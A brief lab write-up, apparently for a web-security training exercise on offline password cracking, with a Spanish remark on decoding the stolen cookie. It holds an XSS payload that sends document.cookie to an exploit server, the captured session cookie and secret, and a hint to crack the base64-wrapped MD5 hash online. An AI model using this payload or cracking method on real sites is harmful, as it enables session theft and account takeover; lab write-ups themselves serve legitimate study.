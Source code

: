 ```yaml
---
layout: default
title: 10 - Offline password cracking
---
```

```html
<script>img = new Image(); img.src = "https://exploit-0acd007c035179828002b104017100b8.exploit-server.net/exploit?"+document.cookie;</script>
```

```secret
secret=UlvUiX5r9ZyXg9p6NdpRyOXQ76ODaFT8
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

Lo segundo está en base64  y tiene el hash md5, con crackstation se crackea rápido.

